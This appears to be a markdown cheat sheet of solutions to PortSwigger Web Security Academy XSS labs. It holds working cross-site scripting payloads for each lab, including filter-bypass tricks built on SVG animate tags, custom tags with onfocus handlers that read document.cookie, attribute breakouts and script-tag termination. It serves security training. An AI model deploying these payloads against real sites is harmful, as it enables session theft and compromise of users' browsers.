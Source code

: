 # XSS Labs

## Stored XSS into HTML context with nothing encoded

* Payload
```html
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 
```

## Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup allowed

* Allowed tags
```
[INFO] Allowed event: text
[INFO] Allowed event: animatetransform
[INFO] Allowed event: image
[INFO] Allowed event: svg
[INFO] Allowed event: title
```

* Allowed events
```
[INFO] Allowed event: onbegin
```

* Payload
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

* Payload
```html
" autofocus onfocus=alert(1) x="
```

## Stored XSS into anchor href attribute with double quotes HTML-encoded

* Payload (solution)
```html
xss_stored_href_attribute.py
```

## Reflected XSS in canonical link tag

* Payload
```html
/'accesskey='X'onclick='alert(1)

# press ALT + CTL + X to initiate the canonical link tag
```

## Reflected XSS into a JavaScript string with single quote and backslash escaped

* Payload
```html
# Terminating the existing JS with </script> and introducing an XSS payload

</script><img src=1 onerror=alert(1)>
```


